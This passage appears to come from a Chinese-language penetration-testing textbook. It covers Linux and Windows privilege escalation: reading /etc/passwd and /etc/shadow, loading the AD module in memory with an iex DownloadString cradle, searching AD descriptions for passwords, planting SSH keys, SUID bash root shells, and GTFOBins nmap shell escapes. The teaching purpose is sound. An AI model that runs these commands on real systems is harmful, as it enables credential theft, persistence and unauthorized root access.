- `5. GECOS。` 这是用户注释字段，用于存储有关账户的特定注释。通常用于放置用户的全名、电子邮件和电话号码。

- `6. 主目录。` 这是用户首次登录系统时获得的目录。用户会将自己的各种配置和操作文件放在主文件夹中。

- `7. 默认 Shell。` 这是用户登录时分配给用户的默认 Shell 解释程序。分配 `/sbin/nologin` 可防止用户账户在尝试直接登录系统时进行任何登录。

现在我们了解了 `passwd` 文件中每个条目的各个部分，我们可以读取系统当前的 `passwd` 文件，以了解可能存在的其他账户。请记住，任何用户账户通常 `UID` 为 `1000` 或以上。用户倾向于将机密、密码或身份验证材料随手放置，因此他们是主要的利用目标。

要读取该文件，我们可以使用 `cat` 命令。请记住，此文件在系统上默认应该是全局可读的，因此每当我们建立立足点或尝试寻找目录遍历漏洞时，无论哪个账户正在运行该服务，我们都应该能够读取此文件。我们可以使用 `cat /etc/passwd` 读取文件，它将把 `passwd` 文件打印到终端。以下信息来自 `Kali Linux VM` 的默认安装，并添加了一个额外用户。

```text
$ cat /etc/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
*** REDUCED FOR BREVITY ***
geoclue:x:132:140::/var/lib/geoclue:/usr/sbin/nologin
king-phisher:x:133:141::/var/lib/king-phisher:/usr/sbin/nologin
kali:x:1000:1000:Kali,,,:/home/kali:/usr/bin/zsh
redis:x:134:143::/var/lib/redis:/usr/sbin/nologin
_gvms:x:135:144::/var/lib/openvas:/usr/sbin/nologin
mosquitto:x:136:145::/var/lib/mosquitto:/usr/sbin/nologin
polkitd:x:999:999:polkit:/nonexistent:/usr/sbin/nologin
chris:x:1001:1001::/home/chris:/bin/sh
```

第一反应？这个文件中有很多条目——但不要被它吓到！记住我们目前所学到的内容。请注意，`UID` 为 `1000` 或更高的用户账户只有两个，即 `kali` 账户和 `chris` 账户。这两个账户表明它们是用户的交互式登录账户，并且可能在系统内拥有额外的机密。这两个账户还有什么有趣的地方？我们知道，根据 `passwd` 文件中的 `x`，它们的密码哈希存储在 `/etc/shadow` 文件中，并且它们的主目录都位于 `/home` 文件夹中。在我们继续深入系统时，请记住这一点！

## 我看不到我的影子

`/etc/shadow` 文件用于存储密码哈希，并且只有 `root` 用户可读，这与 `/etc/passwd` 文件相反。这用于控制对哈希的访问，以保护系统的机密性和完整性。有很多方法可以访问该文件，最值得注意的是通过 `sudo` 权限以 `root` 用户身份执行命令。

密码在计算机中以哈希形式存储。哈希是一种单向且确定性的数学算法，用于证明对某条敏感信息的访问权限。例如，字符串 `whyhello` 经过 `MD5` 哈希算法处理后，总会得到 `f908a3b772d51e6473902f3e8937979`。哈希不是加密，因为加密被设计为可逆的。哈希旨在单向，这就是它被用来存储密码的原因。

`shadow` 文件与 `passwd` 文件类似，具有熟悉的格式。它以冒号分隔，包含各种控制对密码哈希访问的信息。我们可以看到用户名、密码哈希、上次密码更改时间以及密码何时过期。

```text
kali:$y$j9T$zXfNEjP6ZPDCzabfgSLmj/$d.7S35JLORNCfMOvWCr7EjSrbA8atOfRB1N5Pbf51EA:19034:0:99999:7:::
```

要读取此文件（假设我们有权限读取），可以使用 `cat /etc/shadow` 命令将其打印到屏幕上。再次提醒，不要被屏幕上打印的大量信息所困扰！相反，逐行查看，并记住许多服务账户没有分配任何密码。`/etc/shadow` 中没有密码哈希的条目将使用 `!` 或 `*` 代替，这样它们就无法使用密码登录系统。

```text
# cat /etc/shadow
root:!:19034:0:99999:7:::
daemon:*:19034:0:99999:7:::
bin:*:19034:0:99999:7:::
sys:*:19034:0:99999:7:::
sync:*:19034:0:99999:7:::
games:*:19034:0:99999:7:::
*** REDUCED FOR BREVITY ***
lightdm:*:19034:0:99999:7:::
colord:*:19034:0:99999:7:::
geoclue:*:19034:0:99999:7:::
king-phisher:*:19034:0:99999:7:::
kali:$y$j9T$zXfNEjP6ZPDCzabfgSLmj/$d.7S35JLORNCfMOvWCr7EjSrbA8atOfRB1N5Pbf51EA:19034:0:99999:7:::
redis:!:19238::::::
_gvm:!:19238::::::
mosquitto:!:19304::::::
polkitd:!*:19304::::::
chris:$6$j8eqkQAs9cmYjF8J$wgptfmGdyjZw0vBS/YuiYS9qrJdxfJg5iDO.goFw8fYT.20Re0g4ABU3WV3Gz3ekNfT2o5/2CbiYfPItoNebl.:19717:0:99999:7:::
```

再次注意，只有两个账户存储了密码哈希——根据我们对 `/etc/passwd` 文件的分析，我们知道这两个都是交互式用户账户。获取密码哈希后，我们可以将其加载到像 `hashcat` 这样的密码破解程序中尝试破解密码。

访问此文件的诀窍在于读取它需要 `root` 权限。然而，存在各种其他错误配置、`sudo` 滥用甚至系统备份，我们可以通过这些方式访问该文件。要记住的重要一点是，如果可用，这个文件对于跟踪和获取访问权限非常有用。

微软也是如此，例如 `Active Directory` 用户和计算机。我们也可以直接绑定到域控制器上的 `LDAP` 服务，因此有很多选项可以用来收集更多信息。

`BloodHound` 是由 `Specter Ops` 构建的出色工具，用于枚举和识别 `AD` 中的提权路径。本章后面的部分将介绍如何使用 `BloodHound` 以及寻找常见的提权路径。

要使用 `PowerShell ActiveDirectory` 模块，计算机需要安装 `Remote Server Administration Tools (RSAT)` 包中包含的模块。微软提供了关于如何向机器添加此功能的文档⁴，但添加新软件需要管理员级访问权限。由于我们是从一个立足点进行操作，我们没有权限在机器上安装新软件。


**图 7.3** 在 `Windows 10` 设置面板中添加 `RSAT Active Directory` 工具的新功能。这需要管理权限才能安装。

我们如何绕过这一点？嗯，事实证明 `ActiveDirectory` 模块说到底就是一个 `PowerShell` 模块。我们可以改为将 `Microsoft DLL` 传输到我们的机器上，并在不需要管理访问权限的情况下导入它们。

多个 `GitHub` 仓库托管了已签名的 `ActiveDirectory` 模块，这些模块可以直接导入内存而无需接触磁盘。其中一个仓库位于 `https://github.com/samratashok/ADModule`，作者在其中创建了一个直接安装到内存的导入脚本⁵。这种方法的好处是，该模块仍然是微软签名和信任的同一个模块，这表明被恶意软件工具检测到的可能性非常低。可以通过以下 `PowerShell` 命令启动和导入：

```powershell
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

此命令的作用是将文件作为字符串下载，然后在 `Invoke-Expression`（别名为 `iex`）中利用它运行字符串中的命令。请注意，我们始终可以下载此 `PS1` 文件并将其托管在本地共享上，以供没有直接互联网访问的系统使用。既然我们已经导入了该模块，就可以开始从用户级访问直接查询 `AD`。

如果以这种方式下载模块不起作用，我们总是可以将 `Microsoft DLL` 中的程序集导入内存。下面的代码是将 `DLL` 中的 `C#` 程序集加载到内存，然后将程序集导入 `PowerShell` 的有效方法。如果你需要 `DLL` 的副本，请参阅 `GitHub` 上的 `AD-Module` 仓库，地址为 `https://github.com/m4lwhere/AD-Module`。

```powershell
iwr -uri "https://github.com/m4lwhere/AD-Module/raw/main/Microsoft.ActiveDirectory.Management.dll" -outfile ~\AD.dll

$ad = [System.Reflection.Assembly]::Load(([byte[]]([IO.File]::ReadAllBytes ("C:\Users\Chris\AD.dll"))));

Import-Module -Assembly $ad
```


**图 7.4** 展示了通过尝试使用 `Get-ADUser cmdlet` 来显示 `ActiveDirectory` 模块未安装，然后通过 `PowerShell Invoke-Expression`（别名为 `iex`）在内存中安装 `ActiveDirectory` 签名模块，并显示对 `Get-ADUser` 的访问。

既然我们已经导入了这个模块，就可以开始直接从所连接的 `AD` 域中枚举用户。同样，我们对用户描述非常感兴趣，因为系统管理员通常会将密码放在描述框中。让我们尝试识别域中所有具有描述的账户——下面的命令基于 `Description` 不为空的筛选条件进行搜索。

```powershell
Get-ADUser -Filter {Description -like "*"} -Properties * | Select-Object samAccountName, Enabled, Description
```

现在这给了我们一个漂亮的表格，快看看！看起来至少有两个账户的描述中带有密码。请注意，其中一个被标记为已禁用，但同一个密码很可能也被分配给了域中的其他账户。


**图 7.5** 使用 `Get-ADUser cmdlet` 收集账户名和描述。

在实际操作环境中，经常会有数千个用户账户需要解析和理解。我们始终可以通过基于特定字符串的筛选来进一步细化此搜索，例如在 `Description` 字段中搜索 `Password`、`Pass` 和 `pwd`。`PowerShell cmdlet Select-String` 的工作方式类似于 `Linux` 的 `grep` 工具，允许我们通过正则表达式进行搜索。我们可以利用正则表达式，使用类似 `p.ss` 的内容快速定位敏感发现，这将匹配 `Password`、`p@ssword` 和 `p@Ssw0rd`。`Select-String` 默认不区分大小写，这意味着它将匹配大写或小写字母。

```powershell
Get-ADUser -Filter {Description -like "*"} -Properties * | Select-Object samAccountName, Enabled, Description | Select-String -Pattern p.ss, pw, pwd
```


**图 7.6** 添加 `Select-String cmdlet` 以使用正则表达式尝试查找包含密码的账户描述。

## 谁有权限？

既然我们已经知道系统上还有谁，我们需要确定谁有权限获得管理员或 `root` 级别的访问权限。通常，这可以通过 `Windows` 机器上的各种组成员身份和 `Linux` 机器上的 `sudo` 权限来实现。

在环境中开展工作期间，本地管理员权限给了我们很大的优势——这意味着我们可以获取存储在计算机上的敏感信息，并尝试利用这些信息在环境中进一步横向移动。某些项目，如额外的密码哈希、本地浏览数据和个人笔记，往往是用户存储额外身份验证信息的地方。我们的工作是尝试在威胁行为者之前发现这些弱点——这样我们就能尽可能多地消除和降低风险。

## Sudo，给我做个三明治


## sudo 权限

Linux 机器上的`sudo`权限允许特定用户以`root`用户或本地机器上的其他用户身份直接运行命令。这在大多数环境中是必需的，尤其是对于系统管理员和其他必要的系统任务。如果范围和测试得当，`sudo`的使用可以高效且安全。

可以为`sudo`程序启用和利用多种插件策略，最常见的是`sudoers`文件。该文件位于`/etc/sudoers`，利用存储在那里的策略来决定在`sudo`命令中允许谁以及允许发生什么。该策略可以定义使用某些命令是否需要密码。

要列出当前账户可以使用`sudo`执行的操作，请运行下面的命令（这里使用小写的 “L” 作为开关）。这将列出当前主机上允许和禁止该用户执行的命令。这还将进一步揭示哪些命令被允许以及以何种格式。

```text
$ sudo -l
Matching Defaults entries for chris on MSI:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:
    /bin\:/snap/bin

User chris may run the following commands on MSI:
    (ALL : ALL) NOPASSWD: ALL
```

要分析`sudo -l`命令的结果，我们可以看到用户账户`chris`可以使用`sudo`运行所有命令，而无需输入密码。为了进一步细化`sudo`配置列表所显示的信息，我们可以指定`-ll`选项（即小写字母“L”，共两个）。这有助于进一步列出`sudo`输出信息的含义。

```
$ sudo -ll
Matching Defaults entries for chris on MSI:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:
/bin:/snap/bin

User chris may run the following commands on MSI:

Sudoers entry:
    RunAsUsers: ALL
    RunAsGroups: ALL
    Options: !authenticate
    Commands:
        ALL
```

请注意，这里并没有显示出额外的权限，只是这些信息以更易于人类阅读的格式呈现。我们可以看到，我们可以以任何用户和任何组的身份运行所有命令（`ALL`），并且无需验证身份。这是一种自定义配置，旨在允许用户运行`sudo`命令时，无需在每次执行特定命令时输入密码。

显然，这是一个极其不安全的`sudo`策略文件。因为任何能够访问该用户的人，即使不知道用户密码，也能以`root`用户身份运行命令。一旦获得`root`权限，他们就可以获取密码哈希、SSH 密钥以及其他可能存储于其他用户账户中的敏感信息。但请记住，`sudo -l`命令只会列出当前用户的`sudo`权限，而不是系统上其他所有用户的权限。

要知道主机上还有哪些其他用户可以运行`sudo`命令，我们需要查询`/etc/group`文件，看看谁在`sudo`组中。这表示该指定用户将有权使用机器上的`sudo`命令。为了识别这一点，我们可以使用`grep`搜索`/etc/group`文件中的`sudo`组，并查看其中包含哪些成员。通过搜索`sudo`组并将其打印到屏幕上来完成：

```
$ grep '^sudo:.*$' /etc/group
sudo:x:27:chris
```

要对`sudoers`文件进行修改，我们应该确保使用`visudo`命令，而不是直接编辑该文件。我们需要先获得合法的`sudo`访问权限才能进行这些修改！使用`visudo`命令时，`sudoers`文件会被编辑，并检查其中可能导致`sudo`配置损坏的差异。直接编辑`sudoers`文件无法保护系统免受策略中错误配置的影响，并可能导致用户被锁定在系统之外。此外，配置错误的`sudoers`策略会阻止我们再次通过`sudo`进入文件进行修改，很可能需要启动到“单用户”模式才能恢复。简而言之，请使用`visudo`命令，而不是直接编辑`/etc/sudoers`。

## 在这里，谁可以更改我们的 Windows？

Windows 利用组来帮助跟踪和管理哪些人应该被允许对机器拥有管理控制权。与枚举本地用户类似，我们可以使用`net localgroup`命令来确定哪些用户位于`Administrators`组中。这用于找出哪些用户账户在机器上拥有管理访问权限，从而帮助我们取得完全控制。

下面的命令可用于任何 Windows 机器，以枚举哪些用户属于此组：

```
> net localgroup Administrators
Alias name          Administrators
Comment             Administrators have complete and unrestricted access to the computer/domain

Members

---------------------------------------------------
Administrator
chris
The command completed successfully.
```

上述命令的输出显示，用户`Administrator`和`chris`被设置为`Administrators`组的成员。

上述活动来自较早的 Windows 命令提示符时代。在过去十年左右，微软一直在大力推动 PowerShell 尽可能取代 CMD。PowerShell 是一种非常高效的语言，但如果编程不是你的强项，它也可能很难学习。到目前为止，我们已经在 PowerShell 中介绍了一些有用的内容，接下来将继续探索更多。

PowerShell 内置了用于枚举本地组和本地用户的 cmdlet，而无需导入新模块，这与本章前面介绍的`ActiveDirectory`模块类似。要探索本地组和用户，我们可以使用`Get-LocalGroup`、`Get-LocalGroupMember`和`Get-LocalUser`这些 cmdlet。枚举组就像执行`Get-LocalGroup`一样简单。

```powershell
PS C:\Users\mboone2f> Get-LocalGroup

Name                           Description
----                           -----------
Access Control Assistance Operators Members of this group can remotely...
Administrators                  Administrators have complete and u...
Backup Operators                Backup Operators can override secu...
Cryptographic Operators         Members are authorized to perform ...
Device Owners                   Members of this group can change s...
Distributed COM Users           Members are allowed to launch, act...
Event Log Readers               Members of this group can read eve...
Guests                          have the same access as mem...
Hyper-V Administrators          Members of this group have complet...
IIS_IUSRS                       Built-in group used by Internet In...
Network Configuration Operators Members in this group can have som...
Performance Log Users           Members of this group may schedule...
Performance Monitor Users       Members of this group can access p...
Power Users                     Power Users are included for backw...
Remote Desktop Users            Members in this group are granted ...
Remote Management Users         Members of this group can access W...
Replicator                      Supports file replication in a domain
System Managed Accounts Group   Members of this group are managed ...
Users                           Users are prevented from making ac...
```

我们看到该 cmdlet 返回了大量组，但其中有一些非常有趣的名字。我们当然对`Administrators`组感兴趣，可以使用`Get-LocalGroupMember`cmdlet 来请求该组的成员。

要查询这一点，我们可以使用下面的命令来显示此组的所有成员。

```powershell
PS C:\Users\mboone2f> Get-LocalGroupMember -Group Administrators

ObjectClass Name                         PrincipalSource
----------- ----                         ---------------
User        DESKTOP-CHRIS\Administrator Local
User        DESKTOP-CHRIS\chris         Local
```

在上面的例子中，我们可以看到有两个本地账户是这台特定机器上`Administrators`组的成员。这些账户被特别授予了本地计算机的管理级访问权限，而不是对整个域的管理权限。然而，很多时候，本地计算机上可用的某些信息可以用于进一步利用权限深入到域中。

## Active Directory 管理员

要搜索并识别 Active Directory 上的管理级账户，我们可以利用`ActiveDirectory`模块中的几个不同 PowerShell cmdlet。第一个`Get-ADGroupMember`利用`ActiveDirectory`模块查找指定组中的条目。通过将其传给`Administrators`组，我们可以识别谁和哪些组是成员，并确保我们要求它递归运行！这很好地表明了域中谁会成为有价值的攻击目标。

```powershell
PS C:\Users\mboone> Get-ADGroupMember -Identity Administrators -Recursive

SamAccountName     : Domain Admins
SID                : S-1-5-21-711274202-1094311838-204602813-512
DistinguishedName  : CN=Domain Admins,CN=Users,DC=goblins,DC=local
Name               : Domain Admins
ObjectClass        : group
ObjectGuid         : 86a6d36c-a866-4226-add7-d723682f4598
PropertyNames      : {distinguishedName, name, objectClass,
                     objectGUID...}
AddedProperties    : {}
RemovedProperties  : {}
ModifiedProperties : {}
PropertyCount      : 6

SamAccountName     : Enterprise Admins
SID                : S-1-5-21-711274202-1094311838-204602813-519
DistinguishedName  : CN=Enterprise Admins,CN=Users,DC=goblins,DC=local
Name               : Enterprise Admins
ObjectClass        : group
ObjectGuid         : ca5a8211-1e97-4f4e-a938-2c6577c6a03e
PropertyNames      : {distinguishedName, name, objectClass,
                     objectGUID...}
AddedProperties    : {}
RemovedProperties  : {}
ModifiedProperties : {}
PropertyCount      : 6

SamAccountName     : Administrator
SID                : S-1-5-21-711274202-1094311838-204602813-500
```

## 为所有人提供备份

对于系统管理员来说，通常会在`/tmp`或`/var`等世界可读目录中创建 tarball 或其他类型的归档文件，下载备份后将归档文件留在本地系统上。这是因为系统管理员关注运营的正常运行时间和弹性，而很少关注系统上的本地攻击者可能访问到什么。我们能责怪他们吗？也不能太多，考虑到系统管理员专注于运营能力——这正是我们专业知识发挥作用的地方。

沿着同样的思路，系统管理员通常非常擅长检查并禁用那些已知不应面向公众的高风险服务。例如，许多人都很擅长确保 3306（MySQL）或 1433（MSSQL）等数据库端口无法通过互联网访问。然而，根据作者的亲身经验，系统管理员对本地系统上文件的可读权限并未给予足够的重视。许多系统管理员不理解或不充分重视本地被攻破的可能性，从而导致非预期文件可被获取。

记住这一点，我们很可能会找到主机上运行的敏感应用程序的某种备份，甚至是`git`目录。一定要将这些文件下载到本地副本，以便在我们的主机上分析，因为它们很可能包含某种程度的硬编码凭据。其他程序，例如`LinPEAS`，会自动搜索本地机器中的潜在密码和认证活动。`LinPEAS`和`WinPEAS`将在本章后面详细讨论。

## 访问数据库

一旦我们在 Linux 机器上站稳脚跟，就需要检查任何仅在`localhost`上运行、且最初网络中不可用的服务。Web 应用程序的数据库通常只绑定到`localhost`，从而阻止非本地机器上的任何人访问数据库登录面板。

当我们确实可以访问系统时，如果使用了 Web 应用程序，我们可以确定它如何连接到其数据库。通常，这会以配置文件的形式列在 Web 应用程序的根目录中，浏览网站的用户无法访问该文件。但是，借助对本地系统的访问权限，我们可以读取该文件，并确定用于数据库认证的凭据。

连接到该数据库时，我们可以搜索认证材料，以确定是否存储了任何额外的密码哈希。如果幸运的话，我们会看到机器上的管理员或其他本地用户帐户有额外的哈希可用。一旦发现这些哈希，就立即抓取并开始破解它们。

这一点在第三章“Web 应用程序攻击与防御”中有深入介绍，但在本领域也始终值得注意。

## 认证材料

用户可以通过几种不同的方式向 Linux 机器进行认证，即用户密码和 SSH 密钥。SSH 密钥是一对公钥/私钥，可以使用`ssh-keygen`命令在命令行生成。使用 SSH 密钥对进行认证比密码更安全，它依赖于使用文件向服务器认证。生成新密钥很简单，运行命令并按屏幕上的说明操作即可。

默认情况下，将生成 RSA 密钥对，但可以使用`-t`选项指定其他类型的密钥。还可以为密钥设置口令，以增加一层安全性，但这不是必需的。


```
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/chris/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/chris/.ssh/id_rsa
Your public key has been saved in /home/chris/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:D8Jhqcyna7CTf3J+QPTpWH8UJz8t9+YfGxOOsVIGrKI chris@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|       . . .     |
|      .+. . O +  |
|     O +. +. . + . |
|     +. +=So . = O |
|     . O+.OO . + O + |
|    +.E . . OO O. |
|   + O.O .   .  B |
|   +O=..       ++ |
+----[SHA256]-----+
```

为了跟踪哪些公钥/私钥对获准认证某个帐户，`ssh` 程序会在用户主目录中查找 `~/.ssh/authorized_keys` 文件。该文件包含一个公钥列表，允许相应的私钥登录该帐户。这是一个纯文本文件，包含主体（principals）、选项、密钥类型和 Base64 编码的（公）密钥。一旦放入 `authorized_keys` 文件，以后对该帐户的任何 SSH 认证尝试都可以使用相应的私钥进行认证。

要读取可放入 `authorized_keys` 文件的公钥格式，我们可以使用 `cat` 将相应的公钥文件打印到屏幕上。在上面的示例中，我们看到密钥对保存为 `~/.ssh/id_rsa` 和 `~/.ssh/id_rsa.pub` 文件。要查看公钥，请运行 `cat ~/.ssh/id_rsa.pub`。

```
$ cat ~/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC3UHZ2W2Nr7n5+frSG6LW4jgtH/AQ1+l8pe5xxnk3diMuRqW4bLHKeaiffuvctVroew6e7cn+6skYag3O1+R7AgN6Q2HZNBC/GBXwTJlnmStW6D1Ut5cghFV2ADRsSvjJ2EWpObQKWSQOqIADTMfmxJB6J/7KQM0uUK6K1RR0toTUjfApNiJ8XwLQm/abNXtunt6Awj+cIW/rDwC3jleekcYtXrOcJB32B/x8woJWTFowfeOG41mAMxzEq6gyp7vnxkD6IF7MTeYWDsGx9dXGT0IsDzaCp/tPNITvDJfV0kSLW6F83wQMwtb1Y57PuCkTnOnSNNvTV3404UzFxC3kMKRSSfmPkLr3mhwf11NOxMIhTw0hIsINvLBQvJhQmj1NyS2Wykx1VEhjQV9IdCivG03mtM4EMWkc+T2Q8McTJEEfWhj7hUOA2ueDY8nr8LWV2cHgAVriENlSOXCvumJuNud9XyXvVVfZHxIITznYagXtRShcWM= chris@kali
```

使用这种公钥格式，我们可以直接将其复制/粘贴到服务器上的 `~/.ssh/authorized_keys` 文件中，从而启用基于密钥的 SSH 认证。如果可能，请务必确保追加（APPEND）到此文件，因为覆盖该文件会阻止该用户使用任何现有的密钥对。或者，我们可以使用 `ssh-copy-id` 命令将密钥对放到远程机器上——不过，`ssh-copy-id` 在复制过程中需要基于密码的认证。在许多漏洞利用场景中，我们很可能没有可用于完成此操作的密码。一旦公钥被放入服务器的 `authorized_keys` 文件，我们就可以通过为 `ssh` 命令指定 `-i` 标志来提供身份文件，从而认证到系统。这类似于下面的命令，用于登录一个我们拥有与系统上公钥相匹配的私钥的系统。

```
$ ssh -i ~/.ssh/id_rsa chris@192.168.0.1
```

那么我们能用这些信息做什么呢？类似于读取被入侵用户的 `~/.bash_history` 文件，我们可以在其主目录中搜索任何潜在的 SSH 密钥。利用这些密钥的访问权限，很可能可以在整个环境中获得额外的访问权限。

除此之外，如果我们确定可以向系统写入文件，我们随时可以将公钥对写入相应用户的 `~/.ssh/authorized_keys` 文件。请记住，此文件中列出的任何公钥都会被接受用于认证——因此，如果我们使用 `ssh-keygen` 生成自己的密钥对，就可以直接将其放入 `authorized_keys` 文件并进行认证。这也不要求我们知道用户的密码！此时我们只需使用自己的密钥进行认证即可。

## SUID 与 SGID

设置用户 ID（SUID）和设置组 ID（SGID）文件允许程序以分配给该文件的所有者或组的身份执行。通常，这适用于系统中用于 root 级活动的文件，但其他用户设置并创建自己的 SUID/SGID 二进制文件也相当常见。这对 `passwd` 等程序非常有效，普通用户帐户需要能够更改自己在系统上的密码。设置 SUID 和 SGID 文件是为了让低权限用户能够以其他用户的身份执行程序来完成某项任务。

还记得本章前面提到的 `/etc/shadow` 文件用于存储密码哈希，并且只有 root 用户才能访问吗？我们需要为合法用户找到一种重置密码的方法，并让 root 用户在 shadow 文件中相应地更新密码哈希。如果没有这种能力，用户将无法更改自己的密码，而需要向拥有 `sudo` 访问权限的其他用户求助。

为了有效允许用户更改密码，`passwd` 程序的文件权限上设置了 SUID 位。这允许程序以所有者的用户 ID 运行。当调用 `passwd` 程序时，我们实际上是以 root 用户身份运行该程序。这样我们就可以更新自己帐户的密码，同时阻止我们修改 `/etc/shadow` 文件，从而保护系统的其余部分。

识别设置了 SUID/SGID 位的文件，可以通过目录视图中的文件并使用 `ls` 来查看。要查看所有文件权限，我们必须指定 `ls -l` 标志以获得目录的长列表。这会打印当前目录中的文件及其分配的权限、所有者、组所有者、大小和修改时间。具体来说，我们关注的是文件的权限，以识别权限中包含“s”的文件。来看一个例子，查看 `passwd` 程序的权限显示 SUID 位已被设置。

```bash
$ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 51552 Jan 25 03:29 /usr/bin/passwd
```

要测试创建 SUID 位二进制文件，我们可以使用下面的命令将合法的 bash 可执行文件复制到 `/tmp` 目录，然后添加 SUID 位。请注意，此操作会为运行该操作的用户设置 SUID 位——我们需要以 root 身份运行此操作，才能创建属于 root 的 SUID 二进制文件。

```bash
# cp /bin/bash /tmp/bash; chmod +s /tmp/bash
# ls -lA /tmp
total 3748
-rwsr-sr-x 1 root root 1265648 Mar 20 06:14 bash
```

既然我们已经创建了 bash 可执行文件的副本并分配了 SUID 位，要运行它并保持 SUID 行为，我们必须使用 `-p` 标志调用它。Bash 足够智能，能够判断 shell 是否在没有匹配的有效 UID 和真实 UID 的情况下启动，并会回退到真实 UID。为防止这种情况，启动程序时传递 `-p` 标志将不会重置有效 UID。

```bash
$ /tmp/bash
bash-5.2$ whoami
chris

$ /tmp/bash -p
bash-5.2# whoami
root
```

为了查找包含 SUID 或 SGID 位的文件，我们可以利用内置的 `find` 命令。由于我们要查找 SUID 或 SGID 文件，因此要找的是包含 `u=s` 或 `g=s` 位集的文件权限。这表示文件所属的用户或组已经设置了该位。为了正确搜索到此类文件，我们可以借助 `find` 命令中的 `-perm` 标志来定位符合这种规范的文件。

```bash
$ find / -perm -u=s -exec ls -la {} + 2>/dev/null
```

这个命令看起来很复杂，但实际上并没有你想象得那么糟糕。慢慢来，也可以通读 `find` 的手册，如果某些具体标志看起来不太熟悉，有助于确定它们的含义。这个命令的作用是利用 `find` 命令从文件系统根目录（`/`）开始，然后搜索任何设置了 SUID 权限的文件（`-perm -u=s`）。对于找到的所有文件，执行 `ls -la` 命令以获取有关该文件的更多信息（需要 `{} +` 才能执行）。最后，stderr（标准错误输出）被重定向到 `/dev/null`，以保持终端干净。以普通用户身份搜索文件系统时，会出现许多“Permission Denied（权限被拒绝）”错误，因为我们本不该查找或读取敏感的文件夹或文件。

由于这个命令实际上是在扫描设备上的整个文件系统，因此运行需要一段时间。请耐心等待！

与上述方法类似，我们可以稍微更改所搜索的权限来定位 SGID 文件。结果命令类似于下面这样：

```bash
find / -perm -g=s -exec ls -la {} + 2>/dev/null
```

发现带有 SUID 或 SGID 位的二进制文件并不自动意味着该二进制文件存在权限提升漏洞。它真正意味着的是：如果该文件没有针对缓冲区溢出或搜索顺序劫持等二进制攻击进行适当防御，那么它可能被用来利用用户身份获取对应用程序的访问权限。发现的任何非 root 文件都表明系统上有人向该程序添加了 SUID/SGID 位——这种情况应始终进行密切调查！

## Cron 任务

Cron 任务用于确保机器上的特定程序和活动按预定的时间间隔运行。这是一个用于执行定时命令的守护进程。对于需要定期按计划执行任务以完成使命的程序和系统，Cron 任务在确保自动化流程正常运作方面非常有用。

例如，假设一位程序员决定构建一个 Python 程序，它可以自动获取客户信息、解析信息、生成美观多彩的图表，然后将其放入 Word 文档中并通过电子邮件发送给客户。这是确保客户定期收到格式化且易于理解的信息的好方法。客户非常喜欢这些报告，甚至会要求每周为他们生成并发送一次。Cron 任务有助于确保这些程序按需要以固定间隔运行。

`crontab` 的编写方式很特殊，用于精确决定命令在机器上运行的时间和频率。这是通过 `crontab` 每行的前五个条目实现的，每个条目代表一个将由 cron 守护进程解释的特定标记。当某个字段给定星号（`*`）时，意味着该命令应对该字段的所有匹配值生效。Cron 值可能会令人困惑，但网上有多种资源可以帮助我们理解并更好地解析所发现的信息。例如，下图可用于帮助确定 cron 如何解释每个字符。


**图 7.7** Crontab 执行字段定义，取自 [https://commons.wikimedia.org/wiki/File:Crontabks4.th.png](https://commons.wikimedia.org/wiki/File:Crontabks4.th.png)。

以下面的 crontab 为例。该 crontab 每五分钟执行一次命令 `/bin/sh /tmp/backdoor.sh`，根据文件名判断，这可能是一种持久化机制。调查位于 `/tmp/backdoor.sh` 的文件，应该会揭示关于资产上潜在后门的有趣分析。

```
*/5 * * * * /bin/sh /tmp/backdoor.sh
```

其他在线资源包括 `crontab.guru` 网站，它接受一个 crontab 配置，并帮助用通俗语言解释该配置。以我们上面的示例为例，将其放入该网站，就能更好地理解它将被如何解释。


**图 7.8** 使用 crontab.guru 以通俗语言帮助理解 crontab 配置。

Cron 守护进程（`crond`）会搜索 crontab，尝试识别准备执行的 Cron 任务。当 Cron 任务到达特定的时间间隔时，它们将按需执行。默认情况下，`crontab` 存储在 `/var/spool/cron` 文件夹中，每个用户账户都有对应的目录，并且只有特定用户可读。因此，我们无法直接查看所有这些文件夹中的 Cron 任务来确定将发生哪些任务。


**图 7.10** 在 GTFOBins 网站上搜索 `nmap`，显示了一个结果。


**(a)** 输入回显已禁用。

```sh
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF
```

**(b)** 交互模式（适用于 2.02 至 5.21 版本）可用于执行 shell 命令。

```sh
nmap --interactive
nmap> !sh
```

**图 7.11** 如何使用 GTFOBins 中的漏洞利用 PoC 来提升权限。

这个漏洞利用会专门创建一个 `nmap` 脚本，该脚本将以 root 用户身份被解释和执行。该脚本是一个在交互式进程内运行的简单 shell，当通过 `sudo` 运行时，允许我们获得 root 用户的 shell 访问权限。建立 shell 后，我们可以修改 `sudoers` 文件中的额外权限（请务必使用 `visudo`！）、获取 `shadow` 文件的副本，或者将新的 SSH 密钥放入 root 的 `authorized_keys` 文件中。

